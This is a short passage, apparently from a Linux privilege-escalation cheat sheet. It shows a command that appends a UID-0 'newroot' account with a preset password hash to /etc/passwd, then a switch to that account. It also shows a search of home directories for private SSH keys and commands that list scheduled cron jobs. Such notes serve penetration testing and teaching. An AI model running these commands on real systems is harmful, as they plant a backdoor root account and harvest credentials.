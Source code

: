 Or, a new root user can be created:

{% code overflow="wrap" %}
```bash
# Append a new user entry
echo "newroot:\$1\$evil\$F9LZzU/LJjH7ZQZzJX.Zn1:0:0:root:/root:/bin/bash" >> /etc/passwd

# Switch user
su newroot
```
{% endcode %}
{% endtab %}

{% tab title="SSH Keys" %}
```bash
$ sudo find /home -name "id_rsa" -o -name "id_dsa"
```
{% endtab %}
{% endtabs %}

## Scheduled Jobs

```bash
# Print jobs
crontab -l
cat /etc/crontab
cat /var/log/syslog | grep "CRON"
```
